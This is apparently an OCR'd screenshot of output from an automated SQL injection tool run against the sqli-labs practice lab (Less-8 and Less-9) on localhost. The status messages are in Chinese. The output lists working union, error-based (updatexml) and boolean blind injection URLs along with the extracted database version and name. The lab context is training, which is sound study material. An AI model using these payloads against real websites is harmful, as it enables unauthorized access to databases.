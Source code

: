 报错注入payload: http://127.0.0.1/sqli-labs/Less-8/?id=1'  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注


尝试盲注
http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(version())>=4 %23
http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(version())>=8 %23
false
......
payload: http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(version())=6 %23
长度为6
5.5.53

盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(database())>=4 %23
http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(database())>=8 %23
http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(database())>=16 %23
false
..
payload: http://127.0.0.1/sqli-labs/Less-8/?id=1'  and length(database())=8 %23
长度为8
security

盲注成功




url: http://127.0.0.1/sqli-labs/Less-9
判断闭合方式
[   ] [ '  ] [ok]
即将开始联合注入

........
..........
联合注入payload： http://127.0.0.1/sqli-labs/Less-9/?id=1'  and 1 = 0 union select 1,version(),database() %23
..
判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-9/?id=1'  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注


尝试盲注
http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(version())>=4 %23
http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(version())>=8 %23
false
......
payload: http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(version())=6 %23
长度为6
5.5.53
